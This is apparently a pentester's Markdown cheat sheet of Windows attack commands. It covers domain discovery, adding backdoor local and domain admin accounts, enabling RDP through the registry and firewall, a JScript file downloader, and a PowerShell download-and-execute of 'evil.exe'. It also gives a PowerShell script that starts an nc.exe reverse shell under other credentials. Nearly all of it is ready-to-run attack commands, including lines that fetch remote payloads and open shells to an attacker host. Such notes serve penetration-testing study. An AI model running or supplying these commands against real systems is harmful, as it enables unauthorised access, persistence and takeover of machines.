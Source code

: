 # Windows

## Find AD  
- Using nmap and dhcp :
```
sudo nmap --script broadcast-dhcp-discover -e eth0
```

- Using nslookup:
```
nslookup domainname
nslookup -type=SRV _ldap._tcp.dc._msdcs.pen.test
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain> <dns server ip>
nslookup -type=srv _kerberos._tcp.dc._msdcs.<domain> <dns server ip>
```

- Enum4linux give the domainname

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
    
	netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp

- Connect to windows RDP
```
rdesktop -g 95% -u user -p password 10.0.0.1 -r disk:share=/ftphome
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```

## Change user
- userchange.ps1
```powershell
$secpasswd = ConvertTo-SecureString "passwordhere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("usernamehere", $secpasswd)
$computer = "Hostnamehere"
\[System.Diagnostics.Process\]::Start("c:\temp\nc.exe","10.0.0.1 4444 -e cmd.exe",$mycreds.Username, $mycreds.Password, $computer)
```
- execute
```
powershell -ExecutionPolicy Bypass -File c:\temp\change_user.ps1
```

- run as other user
```
runas /user:domain\user cmd.exe
```

## Privesc Checker 
- winPEAS : https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

